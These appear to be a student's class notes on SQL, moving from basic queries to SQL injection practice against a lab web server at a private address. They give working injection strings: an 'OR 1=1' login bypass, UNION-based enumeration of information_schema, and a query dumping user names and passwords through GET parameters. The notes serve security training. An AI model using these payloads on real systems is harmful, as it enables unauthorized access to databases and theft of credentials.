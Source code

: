# SQL
Basic SQL Commands:

![Screenshot from 2023-09-28 08-47-57](https://github.com/hannahsfrommt/Security/assets/140441321/8b7b4f3b-c9b2-4d4d-b543-86e5ec5703d5)

## DEMO  
`SHOW databases;`
performane_schema is automatically generated  
database > tables > rows and columns  
`SHOW TABLES FROM <database>;`  
`SELECT * FROM session.car;  ` 
select everything in the car table in session database  
`SELECT name, cost, Year FROM session.car;  `
`SELECT * FROM session.car UNION SELECT tireid,name,size,cost,1,2 FROM session.Tires; `
have to put 1 and 2 as placeholders, shows both tables at the same time ut car table has more # of columns thats why you need the placeholders  

## cont
informations_schema is default database holds information go to money maker to find out tables and such
`SHOW dataases;`
`SHOW * FROM information_schema;`
important ones are Tables, Columns, Databases = table_schema
`SELECT Table_schema, table_name, Column_name FROM information_schema.Columns;`

|------------------------------------|
|          admin' OR 1= '1           |
|------------------------------------|

if this works it shows that it is vulnerable to sql injection

POST to GET
when submitting things like this it is a POST so we can maybe change it to a GET request
f12 - network - select POST - copy raw data you put in
<url> ?<ctrl+v>
http://10.50.38.117/Union.html
Audi' UNION select 1,2,3 # - 
add more numbers to see what prints stuff out
see num 2 isnt showing in the table, understand that whatever is in that place we will not see
Audi' UNION select Table_schema,2,table_name,column_name,5 FROM Information_schema.columns#
Audi' UNION SELECT id,2,name,pass,5 FROM session.user#


GET to POST
http://10.50.38.117/uniondemo.php?Selection=1&Submit=Submit
http://10.50.38.117/uniondemo.php?Selection=1 or 1=1;
http://10.50.38.117/uniondemo.php?Selection=2 or 1=1;
fuzz page change selection to 2 
http://10.50.38.117/uniondemo.php?Selection=2 UNION select 1,2,3 #
see that 2 and 3 got swapped
10.50.38.117/uniondemo.php?Selection=2 UNION select Table_schema, column_name, table_name FROM information_schema.columns#
http://10.50.38.117/uniondemo.php?Selection=2 UNION SELECT type,color,name FROM 20session.car#



